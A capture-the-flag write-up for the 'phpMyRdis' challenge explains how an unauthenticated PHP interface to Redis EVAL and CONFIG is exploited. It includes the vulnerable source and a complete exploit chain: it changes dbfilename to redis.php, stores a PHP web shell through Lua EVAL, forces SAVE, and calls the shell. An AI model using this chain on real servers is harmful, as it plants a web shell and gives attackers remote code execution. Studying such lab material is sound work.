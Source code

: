 ## 🚩 phpMyRdis

---

### 📝 Description

A web service that allows managing Redis using PHP.  
Find the vulnerability and retrieve the flag.

Flag format: `null{...}`  
Tech Stack: PHP + Redis

---

### 🔍 Background

**Redis (Remote Dictionary Server)** is an in-memory key-value data store that supports periodic persistence to disk. Key features involved in this challenge:

| Setting      | Value     | Description |
|--------------|-----------|-------------|
| `save`       | `100 0`   | Save to disk if 0+ changes in 100 seconds |
| `dbfilename` | `dump.rdb`| Filename to store data |
| `dir`        | `./`      | Directory to store data |

- Redis supports Lua scripting via `EVAL`  
- Redis can be manipulated to **write files** on the server using its config and persistence features.

Redis Lua reference: https://docs.w3cub.com/redis/eval

---

### 🔍 Code Analysis

#### `index.php`

```php
if (isset($_POST['cmd'])) {
    $redis = new Redis();
    $redis->connect($REDIS_HOST);
    $ret = json_encode($redis->eval($_POST['cmd']));
    echo "<pre>$ret</pre>";
    
    $_SESSION['history_'.$_SESSION['history_cnt']] = $_POST['cmd'];
    $_SESSION['history_cnt'] += 1;

    if (isset($_POST['save'])) {
        $path = './data/' . md5(session_id());
        $data = '> ' . $_POST['cmd'] . PHP_EOL . str_repeat('-', 50) . PHP_EOL . $ret;
        file_put_contents($path, $data);
        echo "saved at: <a target='_blank' href='$path'>$path</a>";
    }
}
```

- Executes Redis Lua commands via `eval($_POST['cmd'])`.
- If “Save” is checked, it writes results to a file on disk in `/data/`.

#### `config.php`

```php
if (isset($_POST['option'])) {
    $redis = new Redis();
    $redis->connect($REDIS_HOST);
    if ($_POST['option'] == 'GET') {
        $ret = json_encode($redis->config($_POST['option'], $_POST['key']));
    } elseif ($_POST['option'] == 'SET') {
        $ret = $redis->config($_POST['option'], $_POST['key'], $_POST['value']);
    } else {
        die('error !');
    }
    echo "<pre>$ret</pre>";
}
```

- Allows reading and modifying Redis config using the `CONFIG` command.

---

### ⚠️ Vulnerability Summary

- The service gives unauthenticated access to Redis `EVAL` and `CONFIG` commands.
- Redis can be instructed to **write arbitrary files** on the server using its save mechanism.

---

### 💥 Exploitation Steps

1. **Find the Redis directory**:

```bash
CONFIG GET dir
```

Returns:

```json
{"dir":"/var/www/html"}
```

2. **Change the DB filename** to a PHP file:

```bash
CONFIG SET dbfilename redis.php
```

3. **Lower the save interval**:

```bash
CONFIG SET save "60 0"
```

This means: if 0+ changes occur in 60 seconds, Redis will save to disk.

4. **Inject PHP web shell** via Lua + `EVAL`:

```lua
return redis.call("set", "test", "<?php system($_GET['cmd']); ?>");
```

5. **Trigger a save**:

```bash
SAVE
```

Redis will now serialize all key-value pairs into `/var/www/html/redis.php`.

6. **Access the web shell**:

```php
http://host1.dreamhack.games:<PORT>/redis.php?cmd=/flag
```

This triggers your web shell and runs the command to read the flag.

---

### 🧪 Why does it work?

- `dbfilename` decides the name of the file Redis writes to.
- When `SAVE` is called, Redis dumps **all keys**, including our PHP payload.
- Because the payload is valid PHP, the web server executes it on request.

---

### ✅ Final Exploit

```php
// Step 1: Set redis.php as output file
CONFIG SET dbfilename redis.php

// Step 2: Inject web shell
EVAL "return redis.call('set','test','<?php system($_GET[\"cmd\"]); ?>');" 0

// Step 3: Force save
SAVE

// Step 4: Access shell
http://host1.dreamhack.games:<PORT>/redis.php?cmd=/flag
```

---

### 📌 Key Takeaways

- Redis can be abused to write arbitrary files using `EVAL`, `CONFIG SET`, and `SAVE`.
- Be careful exposing Redis to untrusted input — it's extremely powerful.
- Even harmless-looking interfaces (e.g. a Redis GUI) can lead to RCE if improperly secured.
